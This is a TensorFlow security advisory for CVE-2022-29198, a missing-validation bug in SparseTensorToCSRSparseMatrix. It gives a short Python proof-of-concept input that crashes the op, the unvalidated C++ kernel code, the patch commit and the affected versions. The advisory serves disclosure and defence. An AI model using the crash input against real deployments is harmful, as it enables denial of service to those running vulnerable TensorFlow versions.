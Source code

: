 ## TFSA-2022-068: Missing validation causes denial of service via `SparseTensorToCSRSparseMatrix`

### CVE Number
CVE-2022-29198

### Impact
The implementation of [`tf.raw_ops.SparseTensorToCSRSparseMatrix`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/sparse/sparse_tensor_to_csr_sparse_matrix_op.cc#L65-L119) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

indices = tf.constant(53, shape=[3], dtype=tf.int64)
values = tf.constant(0.554979503, shape=[218650], dtype=tf.float32)
dense_shape = tf.constant(53, shape=[3], dtype=tf.int64)

tf.raw_ops.SparseTensorToCSRSparseMatrix(
  indices=indices,
  values=values,
  dense_shape=dense_shape)
```

The code assumes `dense_shape` is a vector and `indices` is a matrix (as part of requirements for sparse tensors) but there is no validation for this:

```cc
    const Tensor& indices = ctx->input(0);
    const Tensor& values = ctx->input(1);
    const Tensor& dense_shape = ctx->input(2);
    const int rank = dense_shape.NumElements();
    OP_REQUIRES(ctx, rank == 2 || rank == 3,
                errors::InvalidArgument("SparseTensor must have rank 2 or 3; ",
                                        "but indices has rank: ", rank));
    auto dense_shape_vec = dense_shape.vec<int64_t>();
    // ...
    OP_REQUIRES_OK(
        ctx,
        coo_to_csr(batch_size, num_rows, indices.template matrix<int64_t>(),
                   batch_ptr.vec<int32>(), csr_row_ptr.vec<int32>(),
                   csr_col_ind.vec<int32>()));
```

### Patches
We have patched the issue in GitHub commit [ea50a40e84f6bff15a0912728e35b657548cef11](https://github.com/tensorflow/tensorflow/commit/ea50a40e84f6bff15a0912728e35b657548cef11).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
